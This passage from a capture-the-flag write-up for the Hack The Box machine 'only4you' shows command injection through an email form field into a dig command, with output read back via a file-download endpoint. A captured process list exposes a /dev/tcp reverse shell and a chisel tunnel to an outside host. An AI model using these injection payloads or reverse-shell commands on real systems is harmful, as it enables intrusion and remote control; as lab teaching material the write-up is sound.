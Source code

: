 ## Command Injection

I put the above into a small script in order to test possible injects, and landed on this:

```
kali@kali:~/Downloads$ python3 test.py "a@a.co;ps -ef > mytmp"     
Domain:  a.co;ps -ef > mytmp
Command: dig txt a.co;ps -ef > mytmp
CompletedProcess(args=['dig txt a.co;ps -ef > mytmp'], returncode=0, stdout=b'\n; <<>> DiG 9.18.12-1-Debian <<>> txt a.co\n;; global options: +cmd\n;; Got answer:\n;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 51138\n;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1\n\n;; OPT PSEUDOSECTION:\n; EDNS: version: 0, flags:; udp: 512\n;; QUESTION SECTION:\n;a.co.\t\t\t\tIN\tTXT\n\n;; ANSWER SECTION:\na.co.\t\t\t703\tIN\tTXT\t"v=spf1 -all"\n\n;; Query time: 40 msec\n;; SERVER: 9.9.9.9#53(9.9.9.9) (UDP)\n;; WHEN: Fri Apr 28 00:44:19 EDT 2023\n;; MSG SIZE  rcvd: 57\n\n')

kali@kali:~/Downloads$ ls -al mytmp
-rw-r--r-- 1 kali kali 21846 Apr 28 00:44 mytmp
```

Testing on the target was favorable, and it looks like I even spotted someone elses shell:

```
kali@kali:~$ curl --output - http://only4you.htb/ -d "name=a&email=a@a.co|ps -ef > mytmp&subject=a&message=a" && curl --output - http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/mytmp" 
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/#contact">/#contact</a>. If not, click the link.
UID          PID    PPID  C STIME TTY          TIME CMD
www-data    1003       1  0 03:35 ?        00:00:00 /usr/bin/python3 /usr/bin/gunicorn --workers 3 --bind unix:beta.sock -m 007 app:app
www-data    1008       1  0 03:35 ?        00:00:00 /usr/bin/python3 /usr/bin/gunicorn --workers 3 --bind unix:only4you.sock -m 007 app:app
www-data    1026    1025  0 03:35 ?        00:00:00 nginx: worker process
www-data    1027    1025  0 03:35 ?        00:00:00 nginx: worker process
www-data    1070    1003  0 03:35 ?        00:00:00 /usr/bin/python3 /usr/bin/gunicorn --workers 3 --bind unix:beta.sock -m 007 app:app
www-data    1071    1003  0 03:35 ?        00:00:00 /usr/bin/python3 /usr/bin/gunicorn --workers 3 --bind unix:beta.sock -m 007 app:app
www-data    1073    1003  0 03:35 ?        00:00:00 /usr/bin/python3 /usr/bin/gunicorn --workers 3 --bind unix:beta.sock -m 007 app:app
www-data    1413       1  0 03:40 ?        00:00:00 bash -c bash -i >& /dev/tcp/10.10.16.49/443 0>&1
www-data    1414    1413  0 03:40 ?        00:00:00 bash -i
www-data    1427    1414  0 03:41 ?        00:00:00 script /dev/null -c bash
www-data    1428    1427  0 03:41 pts/0    00:00:00 sh -c bash
www-data    1429    1428  0 03:41 pts/0    00:00:00 bash
www-data    1431    1008  0 03:41 ?        00:00:00 /usr/bin/python3 /usr/bin/gunicorn --workers 3 --bind unix:only4you.sock -m 007 app:app
www-data    1485    1008  0 03:42 ?        00:00:00 /usr/bin/python3 /usr/bin/gunicorn --workers 3 --bind unix:only4you.sock -m 007 app:app
www-data    1501    1429  0 03:43 pts/0    00:00:00 ./chisel client 10.10.16.49:9999 R:3000:127.0.0.1:3000 R:8001:127.0.0.1:8001
www-data    1514    1008  0 03:44 ?        00:00:00 /usr/bin/python3 /usr/bin/gunicorn --workers 3 --bind unix:only4you.sock -m 007 app:app
www-data    4547    1485  0 04:41 ?        00:00:00 /bin/sh -c dig txt a.co|ps -ef > mytmp
www-data    4548    4547  0 04:41 ?        00:00:00 dig txt a.co
www-data    4549    4547  0 04:41 ?        00:00:00 ps -ef
```
